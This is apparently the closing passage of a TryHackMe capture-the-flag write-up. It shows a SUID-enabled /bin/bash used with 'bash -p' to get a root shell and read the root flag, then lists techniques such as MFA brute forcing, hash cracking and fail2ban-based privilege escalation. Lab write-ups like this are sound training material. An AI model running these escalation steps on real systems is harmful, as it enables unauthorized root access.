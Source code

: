 Let's see if `/bin/bash` has the SUID now :  
```
fred@biteme:/tmp$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Yes ! Now let's get a root shell :  
```
fred@biteme:/tmp$ /bin/bash -p
bash-4.4# whoami
root
```

Now we can get the root flag :  
```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt 
THM{*********************************}
```

## Conclusion

In this room, we practiced :  
- Services and open ports enumeration using [nmap](https://nmap.org/book/man.html)
- Web enumeration using [gobuster](https://github.com/OJ/gobuster)
- Basic php code analysis
- MFA Brute forcing
- Hash cracking using [john](https://www.openwall.com/john/doc/)
- Basic linux enumeration
- Privilege escalation using fail2ban misconfiguration

Thanks for this room and thanks for reading my write ups !
